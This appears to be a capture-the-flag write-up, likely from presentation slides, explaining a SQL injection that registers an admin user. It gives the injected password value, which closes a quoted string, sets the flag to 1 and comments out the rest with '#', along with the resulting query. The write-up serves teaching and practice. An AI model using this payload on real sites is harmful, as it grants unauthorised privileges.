

# Thought Process and Solution
Intuitively we can guess we want to try registering a new user with 1 as the flag at the end.
INSERT INTO users VALUES (‘user', 'pass', 1)
The issue is that ‘, 0) is automatically tacked onto the end.
The key is to use the SQL comment ‘#’.
User: any
Password: pass', 1);#
INSERT INTO users VALUES ('any', 'pass', 1);#', 0)